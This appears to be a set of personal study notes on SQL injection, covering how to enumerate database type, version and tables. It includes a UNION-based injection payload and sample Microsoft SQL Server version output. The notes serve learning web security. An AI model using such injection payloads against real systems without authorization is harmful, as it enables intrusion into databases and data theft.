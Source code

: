 --- ---

<h2>Examining the Database</h2>

Following initial identification of an SQL injection vulnerability, it is generally useful to obtain
some information about the database itself. This information can often pave the way for further
exploitation.
- Specific syntax depends on the database type

Enumerating Version (Oracle)
```
SELECT * FROM v$version
```

Enumerating Tables
```
SELECT * FROM information_schema.tables
```

---

<h2>More Examination</h2>

Information you need to gather:
- Type of database software
- Version of database software
- Contents of the database (columns and tables)


Querying the Database Type and Version
![[Pasted image 20221210161338.png]]

Example of using a UNION attack:
```
' UNION SELECT @@version--
```

Might return the following version information:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build
14393: ) (Hypervisor)
```
